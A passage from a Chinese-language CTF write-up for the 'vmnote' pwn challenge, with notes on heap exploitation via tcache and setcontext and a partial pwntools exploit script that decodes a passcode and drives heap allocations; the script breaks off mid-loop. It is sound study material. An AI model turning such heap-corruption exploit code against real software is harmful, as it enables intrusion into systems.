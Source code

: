 ## 打的过程中的一些点
因为它每次分了一个 0x18 的堆块来保存链表结构，所以要注意不覆盖我们写 setcontext 的堆块（在我的 exp 中是0号堆块）    
同样也注意不要覆盖 tcache fd 指针ww 不然会报 corruption          
此外，在找外层漏洞的时候尝试手写 fuzz （尝试用了 AFL++ 但是不知道什么原因它会不能完成 first_handshake 然后直接 abort 就比较奇怪吧）（再次感谢 khls 指点ww），然后发现有异常的输出但是可能还是因为 fuzz 无效操作有点多所以看不出来洞，，但是总体而言，可能也许大概知道怎么手写 fuzz 了hhh    

## exp
```py
from signal import pause
from time import sleep
from pwn import*
from random import randint, random
p=process("./vmnote")
context(log_level="debug",arch="amd64")
libc=ELF("./libc-2.31.so")
# try solve passcode
# 先 break 到第一次 ret 的位置,此时栈上从0x1000 开始的信息在 extracted_stack 文件中
# passcode 1. 长度大于 0x11 reg1 是 given_rand
stack1=[218, 179, 148, 171, 119, 96, 184, 110, 192, 93, 154, 165, 95, 46, 76, 181, 98, 239, 185, 231, 168, 72, 195, 60, 22, 67, 31, 8, 219, 230, 217, 201, 56, 92, 2, 61, 125, 251, 3, 246, 176, 190, 134, 216, 19, 48, 89, 229, 208, 147, 145, 9, 194, 81, 4, 177, 65, 213, 113, 236, 32, 7, 250, 207, 85, 204, 146, 133, 127, 200, 49, 94, 223, 33, 163, 245, 55, 71, 186, 120, 254, 174, 62, 43, 37, 25, 151, 64, 252, 78, 132, 167, 225, 241, 140, 88, 143, 144, 161, 211, 215, 122, 45, 13, 100, 14, 53, 105, 189, 221, 224, 166, 235, 155, 234, 87, 206, 35, 30, 121, 40, 170, 75, 6, 103, 227, 18, 77, 175]
# 0x58b1230458d793d0   0x5123d0ead0d5931e 0x58 提取 stack2
stack2=[0xd0,0x93,0xd7,0x58,0x04,0x23,0xb1,0x58,0x1e,0x93,0xd5,0xd0,0xea,0xd0,0x23,0x51,0x58]
def passcode_encode(passcode,reg1):
    qword1=passcode[17:25]
    qword1=u64(qword1)
    qword1-=0x12345678
    assert(qword1==reg1)
    # 0x739 调用的时候 %0 是 buffer_offset %1 是0x101f %2 是 0x11
    for i in range(0x11):
        passcode[i]=stack1[passcode[i]]
    for i in range(0x11):
        assert(passcode[i]==stack[0x1120+i])

def create(idx,siz,content):
    p.recvuntil("choice>> ")
    p.sendline("1")
    p.recvuntil("idx: ")
    p.sendline(str(idx))
    p.recvuntil("size: ")
    p.sendline(str(siz))
    p.recvuntil("content: ")
    p.send(content)
def show(idx):
    p.recvuntil("choice>> ")
    p.sendline("2")
    p.recvuntil("idx: ")
    p.sendline(str(idx))
def delete(idx):
    p.recvuntil("choice>> ")
    p.sendline("4")
    p.recvuntil("idx: ")
    p.sendline(str(idx))
# decode passcode
s=b""
for i in range(17):
    c=stack2[i]
    for j in range(256):
        if stack1[j]==c:
```